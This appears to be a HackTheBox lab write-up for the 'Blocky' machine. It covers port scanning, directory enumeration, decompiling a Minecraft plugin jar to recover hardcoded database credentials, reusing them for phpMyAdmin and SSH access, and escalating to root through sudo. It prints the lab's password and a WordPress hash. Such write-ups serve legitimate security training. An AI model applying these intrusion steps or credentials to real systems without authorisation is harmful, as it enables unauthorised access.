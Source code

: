 # Blocky | HackTheBox

### 1. Scan
```bash
Nmap scan report for 10.129.58.127
Host is up, received echo-reply ttl 63 (0.32s latency).
Scanned at 2021-07-09 06:58:26 EDT for 834s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT      STATE  SERVICE   REASON         VERSION
21/tcp    open   ftp?      syn-ack ttl 63
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open   http      syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63 Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.13 (93%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=7/9%OT=21%CT=8192%CU=%PV=Y%DS=2%DC=T%G=N%TM=60E82F14%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10F%TI=Z%CI=I%II=I%TS=8)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
ECN(R=Y%DF=Y%TG=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.007 days (since Fri Jul  9 07:02:57 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT       ADDRESS
1   314.24 ms 10.10.14.1
2   313.69 ms 10.129.58.127

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  9 07:12:20 2021 -- 1 IP address (1 host up) scanned in 835.04 seconds
```
The machine is running something on port 21 (not responsive, but the port is open), SSH, an Apache web server and a Minecraft service as well on 25565.

### 2. Enumeration
The website is shown to be hosting Wordpress, which is a frontpage for the Minecraft server.
  
*Welcome everyone. The site and server are still under construction so don’t expect too much right now!*
  
*We are currently developing a wiki system for the server and a core plugin to track player stats and stuff. Lots of great stuff planned for the future 🙂*
  
```bash
┌──(kali㉿kali)-[10.10.14.17]-[~/Desktop]
└─$ dirsearch -u http://10.129.58.127/ -x 403                                                           

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /home/kali/Extra-Tools/dirsearch/logs/errors-21-07-09_07-44-28.log

Target: http://10.129.58.127/

Output File: /home/kali/Extra-Tools/dirsearch/reports/10.129.58.127/_21-07-09_07-44-30.txt

[07:44:30] Starting: 
[07:44:34] 301 -  316B  - /plugins  ->  http://10.129.58.127/plugins/
[07:45:51] 301 -    0B  - /index.php  ->  http://10.129.58.127/                                                                         
[07:45:53] 301 -  319B  - /javascript  ->  http://10.129.58.127/javascript/
[07:45:56] 200 -   19KB - /license.txt                                                                  
[07:46:10] 301 -  319B  - /phpmyadmin  ->  http://10.129.58.127/phpmyadmin/             
[07:46:11] 200 -   10KB - /phpmyadmin/                                
[07:46:11] 200 -   10KB - /phpmyadmin/index.php
[07:46:11] 200 -  745B  - /plugins/                                                    
[07:46:14] 200 -    7KB - /readme.html                                                         
[07:46:32] 301 -  313B  - /wiki  ->  http://10.129.58.127/wiki/                                                   
...
```
Searching for directories shows a /plugins which links to an instance of cute file browser with two files: BlockyCore.jar and griefprevention-1.11.2-3.1.1.298.jar. The wiki/ page comes up pretty bare, just promising a wiki will be there soon.

### 3. Check out the jars
So some googling shows that greifprevention is a real minecraft plugin, so the focus immediately goes to BlockCore. There is one class file inside the extracted jar (it can be double-clicked to open like any other archive). Then upload it to http://www.javadecompilers.com to get the decompiled source.
```java
// 
// Decompiled by Procyon v0.5.36
// 

package com.myfirstplugin;

public class BlockyCore
{
    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
    
    public BlockyCore() {
        this.sqlHost = "localhost";
        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }
    
    public void onServerStart() {
    }
    
    public void onServerStop() {
    }
    
    public void onPlayerJoin() {
        this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
    }
    
    public void sendMessage(final String username, final String message) {
    }
}
```
This provides a username and password for SQL: `root:8YsqfCTnvxAUeduzjNSXe22`.

### 4. Access phpmyadmin
With these creds it is now possible to log in over phpmyadmin and access the databases. This of course means access to Wordpress admin credentials from the wp-users table in the wordpress database. Clicking through the phpmyadmin UI, the creds are retrieved as: `notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`

### 5. Get a shell
Log in with the username "notch" and the SQL password, and get in.
```bash
┌──(kali㉿kali)-[10.10.14.17]-[~/Desktop]
└─$ ssh notch@10.129.58.127 
notch@10.129.58.127's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
So the creds for this account are: `notch:8YsqfCTnvxAUeduzjNSXe22`

### 6. Escalate to root
This user can run anything as root.
```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Escalate to root with sudo.
```bash
notch@Blocky:~$ sudo -i
root@Blocky:~# whoami
root
```